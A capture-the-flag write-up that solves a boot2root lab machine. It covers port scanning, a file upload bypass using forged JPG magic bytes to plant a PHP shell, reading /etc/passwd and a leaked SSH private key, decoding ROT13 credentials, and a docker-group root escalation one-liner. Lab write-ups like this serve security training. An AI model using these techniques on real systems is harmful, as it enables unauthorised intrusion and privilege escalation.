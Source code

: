 ## BattleX CTF: another_machine 
#### Category: Boot2Root
#### Score: 30
#### Number of Solves: 4 

### TL; DR



### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-29 17:10 WAT
Nmap scan report for 10.10.90.12
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f8:89:12:c0:ab:91:e2:29:1f:55:a6:b1:aa:48:e5:37 (RSA)
|   256 46:05:a8:f4:66:29:41:79:01:a0:43:b8:a9:ef:47:5d (ECDSA)
|_  256 04:db:fa:b1:16:82:c5:99:86:41:ba:8a:ea:72:34:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Death Note - Add Names
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.66 seconds
```

We have two services running. One SSH on port 22 and Apache web server on port 80. The versions of the services doesn't look like one with a public available exploit to hasten my progress.

### Exploring

![Port 80](https://i.imgur.com/IiUJoIt.png)

_Apache on port 80_

On uploading a JPG file, nothing happens, it seems it uploaded. But to what location?

I used `gobuster` to do a light directory bruteforce, using a common.txt wordlist from SecLists.

![Imgur](https://i.imgur.com/bTuZUNJ.png)

_Gobuster result_

/notes was discovered and on checking, it contained the uploaded file in it. Nice, I could exploit this upload to gain initial access to the base system. I tried uploading a php shell and was greeted by this. 

![Imgur](https://i.imgur.com/drkMEXr.png)

This _thing_ is validating the file signature and less likely the file extension (.php). To bypass this upload restriction. I copied a jpg file magic and pasted in the request, using BurpSuite Repeater.

![Imgur](https://i.imgur.com/RZfkdLr.png)

Boom, my shell uploaded.

![Imgur](https://i.imgur.com/cSUR2FR.png)

### Gaining access 

I opened my equivalent netcat listener and I have shell.

![Imgur](https://i.imgur.com/z6dd8hT.png)

```
www-data@deathnote:/opt/containerd$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[snip]
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
[snip]
ryuk:x:1000:1000:ryuk:/home/ryuk:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
light:x:1001:1001:,,,:/home/light:/bin/bash
```

### Privilege escalation

We have two users apart from root. Next, I uploaded linpeas to quicken my system enumeration proceedure. Linpeas detected a ssh private key in /opt/containerd/ directory which should belong to either of the users or probably root. 

```
www-data@deathnote:/opt/containerd$ ls

bin
id_rsa
lib
www-data@deathnote:/opt/containerd$ cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAzndKq1pSh74SM3nfOe2Wk+lcoLF6sIQMwL4wo7wTuRALVS8O
wDiejhpCJuZ72EAujPmsxJrDN5eD9h3Gvaf56gPcSBEomVoU2oWBVaISTuKjOvXK
[snip]
9cN3D9ruIqD060p8gTfKZAuvMKoTP3ChHAxdXVDcjl6ChTPCKRigQf0=
-----END RSA PRIVATE KEY-----
```
It turned out to be the ssh key for ryuk, now, I will use a more standard and stable shell access.

![Imgur](https://i.imgur.com/r0AGEGy.png)

_user.txt and I can't cat it??_

```
ryuk@deathnote:~$ ls -lah
total 44K
drwx---r-x 6 ryuk  ryuk 4.0K Jun 16 01:23 .
drwxr-xr-x 4 root  root 4.0K Jun 15 01:17 ..
lrwxrwxrwx 1 ryuk  ryuk    9 Jun 16 01:08 .bash_history -> /dev/null
-rw-r--r-- 1 ryuk  ryuk  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 ryuk  ryuk 3.7K Apr  4  2018 .bashrc
drwx------ 2 ryuk  ryuk 4.0K Jun 14 20:52 .cache
drwx------ 3 ryuk  ryuk 4.0K Jun 14 20:52 .gnupg
drwxrwxr-x 3 ryuk  ryuk 4.0K Jun 15 00:49 .local
-rw-r--r-- 1 ryuk  ryuk  807 Apr  4  2018 .profile
-rwx------ 1 ryuk  ryuk   24 Jun 15 01:16 rotedcreds
drwx------ 2 ryuk  ryuk 4.0K Jun 16 01:28 .ssh
-rw-r--r-- 1 ryuk  ryuk    0 Jun 14 20:55 .sudo_as_admin_successful
-rwxr----- 1 light root   33 Jun 15 01:21 user.txt
```

user.txt is owed by user light and root and there's a suspicious `rotedcreds` file which contained a ciphered text. I will proceed to use cyberchef or any tool to anaylse the text and get something useful from it.

![Imgur](https://i.imgur.com/VmKtjp7.png)

_ROT13 with amount 13_

Credential for light, gotten.

light:0lightyagami23433

```
ryuk@deathnote:~$ su light
Password:
light@deathnote:/home/ryuk$ cat user.txt
5eb63bbbe01eeed093cb22bb8f5acdc3
light@deathnote:/home/ryuk$
```

User flag gotten!!

User flag: `5eb63bbbe01eeed093cb22bb8f5acdc3` 

### Privilege escalation to root

![Imgur](https://i.imgur.com/NIr8bZQ.png)

_Manual enumeration_

Light may not use sudo but Light is in the docker group. Meaning, Light can run docker as root. I can easily escalate to root with this discovery. By running this command, `docker run -v /:/mnt --rm -it alpine chroot /mnt bash` (source: gtfobins), I will be spawned into a root shell.

![Imgur](https://i.imgur.com/e0sZ5EU.png)

```
root@729fd2f76468:~# ls -lah
total 40K
drwx------  6 root root 4.0K Jun 16 02:12 .
drwxr-xr-x 24 root root 4.0K Jun 14 20:01 ..
lrwxrwxrwx  1 root root    9 Jun 15 04:14 .bash_history -> /dev/null
[snip]
drwx------  2 root root 4.0K Jun 14 20:51 .ssh
-r--r--r--  1 root root  353 Jun 15 01:37 deathnote
-rw-------  1 root root  123 Jun 16 02:12 root.txt
root@729fd2f76468:~# cat root.txt
here is your flag but please remove the deathnote before leaving h4ckerm4n

1f3870be274f6c49b3e31a0c6728957f
root@729fd2f76468:~#
```
Root flag gotten.

Root flag:`1f3870be274f6c49b3e31a0c6728957f`

### Extras

There's a note saying I should remove the deathnote before leaving, its clearly having read and no write permissions. 

```
root@729fd2f76468:~# chmod 777 deathnote
chmod: changing permissions of 'deathnote': Operation not permitted
root@729fd2f76468:~# chattr -i deathnote
Hacksparo was too smart -i deathnote
```
_Tried to use chattr_

I will figure out a way later. Onto the next.

### References

1. [gtfobins](https://gtfobins.github.io/gtfobins/docker/)